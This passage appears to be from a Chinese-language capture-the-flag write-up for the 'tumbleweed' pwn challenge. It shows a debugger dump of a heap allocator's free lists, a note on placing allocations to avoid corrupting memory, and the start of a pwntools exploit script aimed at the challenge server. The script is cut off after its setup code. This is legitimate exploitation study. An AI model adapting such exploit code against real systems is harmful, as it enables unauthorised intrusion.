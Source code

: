 ```bash
0x1008448 <tumbleweed.fba>:	0x0000000000000010	0x0000000001008590
0x1008458 <tumbleweed.fba+16>:	0x00000000000a0000
...
0x1008500 <heap.SmpAllocator.global>:	0x0000000000000000	0x0000000000000000
0x1008510 <heap.SmpAllocator.global+16>:	0x0000000000000000	0x0000000000000000
0x1008520 <heap.SmpAllocator.global+32>:	0x0000000000000000	0x0000000000000000
0x1008530 <heap.SmpAllocator.global+48>:	0x0000000000000000	0x0000000000000000
0x1008540 <heap.SmpAllocator.global+64>:	0x0000000000000000	0x0000000000000000
0x1008550 <heap.SmpAllocator.global+80>:	0x0000000000000000	0x0000000000000000
0x1008560 <heap.SmpAllocator.global+96>:	0x0000000000000000	0x0000000000000000
0x1008570 <heap.SmpAllocator.global+112>:	0x0000000000000000	0x0000000000000000 # <--- 0x10, 0x20
0x1008580 <heap.SmpAllocator.global+128>:	0x0000000000000000	0x0000000000000000 # <--- 0x40, 0x80
0x1008590 <heap.SmpAllocator.global+144>:	0x0000000000000000	0x0000000000000000 # <--- 0x100, 0x200
...
```

> [!caution]
>
> 这里由于每次申请必须输入内容，所以任意读可能会破坏目标地址内存，所以下面exp里实现的时候申请内存都在`addr-8`的位置

Exp：

```python
from pwn import *

local = 0
pc = './tumbleweed'
aslr = True
context.log_level = "debug"
#context.terminal = ["deepin-terminal","-m","splitscreen","-e","bash","-c"]
context.terminal = ['tmux','splitw','-h']
context.arch = "amd64"
context.os = "linux"

libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
elf = ELF(pc)

if local == 1:
    #p = process(pc,aslr=aslr,env={'LD_PRELOAD': './libc.so.6'})
    p = process(pc,aslr=aslr)
else:
    remote_addr = ['tumbleweed.chal.pwni.ng', 1337]
    p = remote(remote_addr[0], remote_addr[1])

ru = lambda x : p.recvuntil(x)
sn = lambda x : p.send(x)
rl = lambda   : p.recvline()
sl = lambda x : p.sendline(x)
rv = lambda x : p.recv(x)
sa = lambda a,b : p.sendafter(a,b)
sla = lambda a,b : p.sendlineafter(a,b)

def lg(s,addr):
    log.critical("{} -> {}".format(s, hex(addr)))

def raddr(a=6):
    if(a==6):
        return u64(rv(a).ljust(8, b'\x00'))
    else:
        return u64(rl().strip().ljust(8,b'\x00'))

```